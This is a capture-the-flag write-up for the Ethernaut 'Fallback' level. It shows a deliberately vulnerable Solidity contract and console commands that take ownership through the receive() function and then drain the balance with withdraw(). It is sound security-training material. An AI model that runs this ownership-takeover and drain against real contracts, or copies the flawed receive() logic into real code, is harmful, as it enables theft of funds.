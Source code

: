 ```yaml
---
title: "Fallback"
tags: ["Fallback Methods"]
reference: https://ethernaut.openzeppelin.com/level/1
---
```


# Description

Look carefully at the contract's code below.

You will beat this level if

you claim ownership of the contract
you reduce its balance to 0
  Things that might help

How to send ether when interacting with an ABI
How to send ether outside of the ABI
Converting to and from wei/ether units (see help() command)
Fallback methods

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

# Solution

1. learn how to become owner

- (1) contribute `< 0.001 ether`
- (2) call `receive()` function

```sol
    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }
    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```

2. call `contribute()`

```
tx = {to: '0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB', value: '10', from: '0xB1473Ba227C4645501E0e05f4839b00ED8320d33', gas: 40000}
contract.contribute.sendTransaction(tx)
```

3. call `recieve()`

```
contract.sendTransaction(tx)
```

4. call `withdraw()`

```
contract.withdraw()
```

5. check balance

```
await getBalance(instance)
'0'
```
